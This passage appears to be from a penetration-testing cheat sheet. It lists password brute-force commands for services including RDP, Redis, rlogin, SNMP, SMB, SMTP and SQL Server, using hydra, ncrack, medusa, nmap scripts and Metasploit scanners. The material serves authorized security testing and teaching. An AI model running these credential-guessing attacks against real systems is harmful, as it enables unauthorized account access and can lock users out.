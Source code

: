 ```
ncrack -vv --user <User> -P pwds.txt rdp://<IP>
hydra -V -f -L <userslist> -P <passwlist> rdp://<IP>
```
## Redis
```
msf> use auxiliary/scanner/redis/redis_login
nmap --script redis-brute -p 6379 <IP>
hydra –P /path/pass.txt <IP> redis
```
## Rexec
```
hydra -l <username> -P <password_file> rexec://<Victim-IP> -v -V
```
## Rlogin
```
hydra -l <username> -P <password_file> rlogin://<Victim-IP> -v -V
```
## Rsh
```
hydra -L <Username_list> rsh://<Victim_IP> -v -V
参考链接：rsh-grind | pentestmonkey
```
## Rsync
```
nmap -sV --script rsync-brute --script-args userdb=/var/usernames.txt,passdb=/var/passwords.txt -p 873 <IP>
```
## RTSP
```
hydra -l root -P passwords.txt <IP> rtsp
```
## SNMP
```
msf> use auxiliary/scanner/snmp/snmp_login
nmap -sU --script snmp-brute <target> [--script-args snmp-brute.communitiesdb=<wordlist> ]
onesixtyone -c /usr/share/metasploit-framework/data/wordlists/snmp_default_pass.txt <IP>
hydra -P /usr/share/seclists/Discovery/SNMP/common-snmp-community-strings.txt target.com snmp
```
## SMB
```
nmap --script smb-brute -p 445 <IP>
hydra -l Administrator -P words.txt 192.168.1.12 smb -t 1
```
## SMTP
```
hydra -l <username> -P /path/to/passwords.txt <IP> smtp -V
hydra -l <username> -P /path/to/passwords.txt -s 587 <IP> -S -v -V #Port 587 for SMTP with SSL
```
## SQL Server
```
#Use the NetBIOS name of the machine as domain
hydra -L /root/Desktop/user.txt –P /root/Desktop/pass.txt <IP> mssql
medusa -h <IP> –U /root/Desktop/user.txt –P /root/Desktop/pass.txt –M mssql
nmap -p 1433 --script ms-sql-brute --script-args mssql.domain=DOMAIN,userdb=customuser.txt,passdb=custompass.txt,ms-sql-brute.brute-windows-accounts <host> #Use domain if needed. Be carefull with the number of password in the list, this could block accounts
```